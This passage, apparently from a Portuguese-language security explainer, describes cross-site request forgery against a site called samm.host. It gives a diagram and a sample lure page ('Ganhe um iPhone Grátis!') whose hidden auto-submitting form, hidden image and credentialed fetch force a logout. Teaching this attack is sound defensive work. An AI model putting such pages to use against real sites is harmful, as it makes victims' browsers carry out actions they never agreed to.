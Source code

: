 ```
       │
       ▼
┌─────────────────────────────────────────────┐
│ <form action="https://samm.host/api/logout" │
│       method="POST">                        │
│   <input type="submit" value="Clique aqui!">│
│ </form>                                     │
│                                             │
│ <script>                                    │
│   // Ou automaticamente:                   │
│   document.forms[0].submit();               │
│ </script>                                   │
└─────────────────────────────────────────────┘
       │
       │ 3. Navegador envia cookies
       │    automaticamente! 🚨
       ▼
┌──────────────┐
│ Site Legítimo│
│  samm.host   │
└──────────────┘
       │
       └─► ❌ Ação executada sem consentimento!
           (Logout, transferência, mudança de dados)
```

### Exemplo de Ataque Real

```html
<!-- evil.com/ataque.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Ganhe um iPhone Grátis!</title>
</head>
<body>
    <h1>Parabéns! Você ganhou!</h1>
    
    <!-- Formulário oculto que ataca samm.host -->
    <form id="ataque" action="https://samm.host/api/auth/logout" method="POST">
        <input type="hidden" name="user_id" value="123">
    </form>
    
    <script>
        // Submete automaticamente sem o usuário saber
        document.getElementById('ataque').submit();
    </script>
    
    <!-- Ou pode ser uma imagem: -->
    <img src="https://samm.host/api/auth/logout" style="display:none">
    
    <!-- Ou fetch JavaScript: -->
    <script>
        fetch('https://samm.host/api/auth/logout', {
            method: 'POST',
            credentials: 'include' // Inclui cookies!
        });
    </script>
</body>
</html>
```
